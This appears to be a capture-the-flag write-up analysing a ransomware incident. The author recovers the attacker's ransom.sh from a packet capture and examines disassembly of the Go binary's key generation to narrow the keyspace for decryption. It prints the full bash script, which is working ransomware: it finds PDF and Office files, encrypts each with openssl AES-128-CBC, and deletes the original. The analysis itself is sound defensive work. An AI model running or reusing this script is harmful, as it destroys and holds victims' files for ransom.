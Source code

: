 Going back and reopening our pcap file and navigating to the `ransom.sh` file being downloaded, we are able to see what the bash script contents were:

```bash
read -p "Enter encryption key: " key
hexkey=`echo -n $key | ./busybox xxd -p | ./busybox head -c 32`
export hexkey
./busybox find $1 -regex '.*\.\(pdf\|doc\|docx\|xls\|xlsx\|ppt\|pptx\)' -print -exec sh -c 'iv=`./openssl rand -hex 16`; echo -n $iv > $0.enc; ./openssl enc -e -aes-128-cbc -K $hexkey -iv $iv -in $0 >> $0.enc; rm $0' \{\} \; 2>/dev/null
```

It looks like the attacker is using the `aes-128-cbc` algorithm from the `openssl` library. Additionally, the attacker is generating a random `16 byte` hex value as the aes `IV`, or Initialization Vector, and appending that to the beginning of our encrypted file! 

If we were to open up the `important_data.pdf.enc` file we can see the first `16 byte` hex value. Extracting that out and saving that for later already gives us the upper hand to decrypting this file.

```
adc3216ac29201fa484999e823a95e90
```

The only last piece of information we really need is the `hexkey`, which is arguably one of the most important parts! That being said, there is a VERY large space of which the `hexkey` can possibly be.

How do we break up the information we know in order to reduce are set of possible keys?

Luckily, after breaking down the lock function in task 8 we can focus primarily on the portion that generates the encryption key. 

The first thing that happens come time to generate an encryption key is that the binary captures the current time. You can see this happening analyzing the binary with IDA with the following instructions:

```
call    time_Now
lea     rdi, a20060102t15040 ; "2006-01-02T15:04:05Z07:00"
mov     esi, 25
nop     dword_ptr[rax]
call    time_Time_Format
```

Which can convert to being:

```Go
currentTime := time.Now()
formattedTime := currentTime.Format("2006-01-02T15:04:05Z07:00");
```


This value is then passed into the GetUUID() function to generate a Unique ID. The unique id is then encrypted using an AES Block Cipher encryption with the key-encryption-key we discovered earlier in Task 8. 

The logic goes onto to access the database that stores their customers information, charges the customer for using their services, stores the encrypted key in the database, and then displays the "plainKey" for the user so they can go about encrypting the files of whoever they have compromised. 
